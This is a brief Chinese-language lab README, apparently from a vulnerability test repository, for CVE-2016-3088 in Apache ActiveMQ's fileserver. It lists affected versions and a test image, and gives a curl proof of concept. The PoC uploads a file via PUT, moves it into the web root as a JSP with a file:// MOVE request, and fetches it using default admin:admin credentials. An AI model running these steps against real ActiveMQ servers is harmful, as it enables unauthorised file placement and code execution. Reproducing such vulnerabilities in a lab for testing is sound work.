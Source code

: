 ### CVE-2016-3088 - PUT + MOVE file:// 漏洞

测试镜像

* src/activemq/5.13.0/

影响版本

* 5.0.0 - 5.13.x

参考文档

* [CVE-2016-3088 - ActiveMQ Fileserver web application vulnerabilities](http://activemq.apache.org/security-advisories.data/CVE-2016-3088-announcement.txt)

Poc

```
#创建测试文件
echo hello world > 123.txt

# 上传文件
curl -vv http://127.0.0.1/fileserver/123.txt -XPUT --data @123.txt

# 改名，需要知道绝对路径
curl -vv -X MOVE --header 'Destination: file:///activemq/webapps/123.jsp' 'http://127.0.0.1/fileserver/123.txt'

# 访问
curl --user admin:admin 'http://127.0.0.1/123.jsp'
```

